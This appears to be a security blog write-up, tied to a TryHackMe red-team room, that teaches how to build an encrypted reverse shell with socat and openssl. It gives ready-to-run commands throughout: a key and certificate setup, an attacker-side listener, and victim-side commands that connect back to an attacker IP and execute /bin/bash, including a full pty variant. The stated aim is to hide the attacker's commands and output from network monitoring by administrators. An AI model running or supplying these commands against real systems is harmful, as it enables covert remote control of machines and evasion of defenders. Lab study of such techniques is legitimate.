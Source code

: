 ```yaml
---
title: "Socat - Encrypted reverse shell"
author: Nasrallah
description: ""
date: 2022-12-21 00:00:00 +0000
categories : []
tags: [linux, easy, reverse-shell, socat, openssl]
img_path: /assets/img/others/socat
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Reverse shells are used a lot for getting foothold on the target systems, but these reverse shells use a clear text-based communication which allows administrators monitoring the network to not only see the commands that are run on the target but also see the output that is displayed to the attacker, which leaves the latter in a vulnerable position.

We are going to use `socat` that utilizes an encryption key created with `openssl` and set `socat` to use that key to enforce encryption as it listens for incoming connections.

# **Socat**

We create the key with `openssl` using the following command:

```bash
openssl req -newkey rsa:4096 -x509 -days 1000 -subj '/CN=www.revshell.thb/O=Rev Shell/C=UK' -nodes -keyout revshell.key -out revshell.crt
```

 - req: Indicates that this is a certificate signing request.

 - -x509: Specifies that we want an X.509 certificate.

 - -newkey rsa:4096: Creates a new certificate request and a new private key using RSA with the key size being 4096 bits.

 - -days 1000: Sets the validity of the certificate to 1000 days.

 - -subj: sets data such as organization and country.

 - -nodes: Or No DES which means OpenSSl will note encrypt the private key.

 - -keyout: Specifies the filename of the private key.

 - -out: Specifies the filename of the certificate request.


Now we need to create a Privacy Enhanced Mail `.pem` file by concatenating the private key `.key` and the certificate `.crt`

![](1.png)

With that, we can start listening using the key for encrypting the communication with the client.

```bash
socat -d -d OPENSSL-LISTEN:4443,cert=revshell.pem,verify=0,fork STDOUT
```

 - -d -d: provides debugging data(error, warning..)

 - OPENSSH-LISTEN:4443: indicates that the connection will be encrypted using OPENSSL and sets the listening port to 4443.

 - cert=PEM_file:provides the PEM file to establish the encrypted connection.

 - verify=0: disables checking peer's certificate.

 - fork: creates a sub-process to handle each new connection.

Now on the victim machine we execute the following command:

```bash
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

![](2.png)

And we managed to get an encrypted shell.

We can also get a pty shell by executing this command:

```bash
socat OPENSSL:10.11.14.124:4443,verify=0 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

![](3.png)

To check if the connection is encrypted, we can intercept the traffic using `wireshark`.

![](5.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://tryhackme.com/room/redteamnetsec

https://www.hackingarticles.in/encrypted-reverse-shell-for-pentester/